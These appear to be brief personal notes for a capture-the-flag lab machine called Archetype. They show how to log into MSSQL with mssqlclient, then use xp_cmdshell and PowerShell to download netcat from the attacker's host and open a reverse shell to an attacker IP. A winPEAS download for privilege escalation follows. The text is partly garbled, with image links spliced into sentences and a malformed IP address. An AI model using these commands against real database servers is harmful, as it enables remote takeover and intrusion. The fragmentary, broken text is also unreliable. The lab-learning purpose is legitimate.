 > In order to connect to my mssqlclient you will have to use th![[Pasted image 20231007210022.png]]is command 

![[Pasted image 20231007210022.png]]

#ARCHETYPE is computer name/follow by the user/ip address of the target machine and at the end you will have to add #windows-auth. 

> In order to get the path of the mssqlclient you will have to run <locate mssqlclient> command without the symbols.


In order to download the file inside the server you will have to use this command using a python server 

 xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ipadress of your machie/nc64.exe -outfile nc.exe

To get the reverseshell you will use this command 
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.0.0.0.12 443"

-remember to replace the ip and port that you are listening

In order to download winPEASS you will need to run this command
curl -LO https://github.com/carlospolop/PEASS-ng/releases/download/winPEAS-1.7.3/WinPEASx64.exe
